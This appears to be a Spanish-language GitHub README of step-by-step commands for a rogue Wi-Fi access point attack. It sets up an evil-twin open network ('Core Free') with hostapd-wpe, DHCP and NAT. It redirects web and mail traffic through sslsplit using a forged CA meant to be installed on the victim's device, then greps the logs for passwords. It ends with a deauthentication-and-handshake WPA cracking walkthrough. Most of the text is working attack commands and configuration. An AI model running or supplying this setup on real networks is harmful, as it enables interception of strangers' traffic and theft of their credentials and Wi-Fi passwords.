 Pinchar [aqui](https://github.com/luisesp19/ap/blob/main/ca.zip) para descargar certificado

# Teclado ES

```
setxkbmap es sundeadkeys
```

# AP

Comprobar que el dispositivo está enchufado y detectado

```
iwconfig
```

Actualizar la lista de paquetes disponibles y sus versiones

```
sudo apt update
```

Modified hostapd to facilitate AP impersonation attacks

(hostapd modificado para facilitar ataques de impersonificación en puntos de acceso)

```
sudo apt install hostapd-wpe
```

```
cd
mkdir pruebas
cd pruebas
```

```
nano host.conf
```

```
interface=wlan0
driver=nl80211
country_code=ES
hw_mode=g
channel=1
ssid=Core Free

#auth_algs=1
#wpa=2
#wpa_key_mgmt=WPA-PSK
#wpa_pairwise=CCMP
#wpa_passphrase=12345678
```

# Redirección de tráfico

```
cd
cd pruebas
```

```
touch ip.sh
chmod 700 ip.sh
nano ip.sh
```

```
#!/bin/bash

iptables-legacy -F
iptables-legacy -t nat -F

iptables-legacy -X
iptables-legacy -t nat -X

iptables-legacy -P INPUT ACCEPT
iptables-legacy -P OUTPUT ACCEPT
iptables-legacy -P FORWARD ACCEPT

echo 1 > /proc/sys/net/ipv4/ip_forward

LAN_IF="eth0"

iptables-legacy -t nat -A POSTROUTING -o $LAN_IF -j MASQUERADE
```

# DHCP

```
sudo apt install isc-dhcp-server
sudo cp /etc/dhcp/dhcpd.conf /etc/dhcp/dhcpd.conf.ORIGINAL
sudo nano /etc/dhcp/dhcpd.conf
```

Descomentar la siguiente instruccion

```
#authoritative;
```

Añadir al final del documento

```
subnet 172.16.0.0 netmask 255.255.255.0 {
    range 172.16.0.100 172.16.0.240;
    option broadcast-address 172.16.0.255;
    option routers 172.16.0.1;
    option domain-name "local";
    option domain-name-servers 8.8.8.8, 8.8.4.4;
}
```

```
sudo nano /etc/default/isc-dhcp-server
```

Modificarlo de la siguiente forma

```
INTERFACESV4="wlan0"
# INTERFACESV6=""
```

# Iniciar

Nota: Correr en el mismo orden en caso de reiniciar el sistema

```
sudo ifconfig wlan0 172.16.0.1 netmask 255.255.255.0
sudo systemctl start isc-dhcp-server.service
sudo systemctl status isc-dhcp-server.service
```

```
cd
cd pruebas
```

```
sudo ./ip.sh
sudo iptables-legacy -t nat -nL
```

```
sudo airmon-ng check
sudo airmon-ng check kill
sudo airmon-ng check
```

```
sudo hostapd-wpe host.conf
```

# SSL

```
cd
cd pruebas
mkdir sslsplit
cd sslsplit
```

Generar el certificado. Debe ser instalado en el dispositivo de la víctima

```
openssl genrsa -out ca.key 4096
openssl req -new -x509 -days 1826 -key ca.key -out ca.crt
```

Editar el script "ip.sh" que teníamos y añadir debajo lo siguiente

```
iptables-legacy -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 8080
iptables-legacy -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443
iptables-legacy -t nat -A PREROUTING -p tcp --dport 587 -j REDIRECT --to-ports 8443
iptables-legacy -t nat -A PREROUTING -p tcp --dport 465 -j REDIRECT --to-ports 8443
iptables-legacy -t nat -A PREROUTING -p tcp --dport 993 -j REDIRECT --to-ports 8443
iptables-legacy -t nat -A PREROUTING -p tcp --dport 5222 -j REDIRECT --to-ports 8080
```

Volver a lanzar

```
sudo ./ip.sh
sudo iptables-legacy -t nat -nL
```

```
cd
cd pruebas/sslsplit
mkdir logdir
```

## Iniciar SSL

```
mkdir /tmp/sslsplit
cd
cd pruebas/sslsplit
```

```
sudo sslsplit -D -l connections.log -j /tmp/sslsplit/ -S logdir/ -k ca.key -c ca.crt ssl 0.0.0.0 8443 tcp 0.0.0.0 8080
o
sudo sslsplit -D -l connections.log -j /tmp/sslsplit/ -S logdir/ -k ca.key -c ca.crt https 0.0.0.0 8443 tcp 0.0.0.0 8080
```

```
cd
cd pruebas/sslsplit
tail -f connections.log
```

```
cd
cd pruebas/sslsplit/logdir
ls -la
grep -r 'pass' ./
```

# Crack

Comprobar que el device ha sido detectado

```
iwconfig
```

```
sudo airmon-ng check
sudo airmon-ng check kill
sudo airmon-ng check
```

Comprobar wlan0 se ha convertido en wlan0mon

```
sudo airmon-ng start wlan0
iwconfig
```

```
sudo airodump-ng wlan0mon
coger el bssid y el canal para hacerlo más especifico:
cd
cd Desktop
sudo airodump-ng -c [canal del punto de acceso] -bssid [bssid del punto de acceso] -w objetivo wlan0mon
(en STATION coger la mac address del dispositivo que está conectado al punto de acceso. Se crearan algunos archivos llamados objetivo, entre ellos un .cap)

sudo aireplay-ng -0 5 -a [bssid del punto de acceso] -c [mac address del dispositivo que está conectado al punto de acceso] wlan0mon
tiene que mostrar algunas lineas de "Sending" y en el airodump-ng mostrarse el "handshake"

cd
cd Desktop
crear un contrasenas.txt con contraseñas (incluir la contraseña buena)
sudo aircrack-ng -w contrasenas.txt [el archivo .cap]
Se debe mostrar "KEY FOUND" y a continuación la contraseña
```

# Enlaces

```
https://blog.heckel.io/2013/08/04/use-sslsplit-to-transparently-sniff-tls-ssl-connections/

https://alpaca-attack.com/
```
